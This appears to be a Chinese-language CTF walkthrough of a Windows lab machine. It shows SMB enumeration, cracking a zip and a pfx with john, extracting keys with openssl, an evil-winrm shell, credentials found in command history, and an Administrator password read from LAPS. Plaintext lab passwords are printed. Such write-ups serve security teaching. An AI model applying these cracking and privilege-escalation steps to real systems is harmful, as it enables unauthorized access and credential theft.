

# 信息收集

## nmap-端口扫描


## 445-SMB


smb中有个zip文件下载到本地，解压需要密码，使用zip2john将zip文件转化为hash然后使用john破解密码

```shell
zip2john winrm_backup.zip >> winrm.hash
john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash
```


```
supremelegacy
```

解压zip文件之后是个pfx文件，pfx文件中有证书，私钥，公钥，可以使用openssl提取,提取时需要密码，可以使用pfx2john破解，和zip2john破解是一样的步骤

```shell
pfx2john legacyy_dev_auth.pfx >> legacyy.hash
john --wordlist=/usr/share/wordlists/rockyou.txt
```



```txt
thuglegacy
```

pfx文件中包含公钥，私钥，证书，可以使用openssl提取

```shell
提取证书
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out server.pem
提取私钥
openssl rsa -in server.pem -out prv.key
提取公钥
openssl x509 -in server.pem -out pub.crt
```


# get-shell

evil-winrm支持使用公私钥连接


查看命令行历史记录，其中有svc_deploy用户的凭证


```
svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

## 提权

svc_deploy用户是LAPS_Readers组成员，允许读取LAPS，直接读取管理员密码


```
Administrator:8T0xR+)@Q[yzD$G9]!$X$F{P
```


也可以使用脚本获取LAPS

[n00py/LAPSDumper: Dumping LAPS from Python](./https://github.com/n00py/LAPSDumper/tree/main)

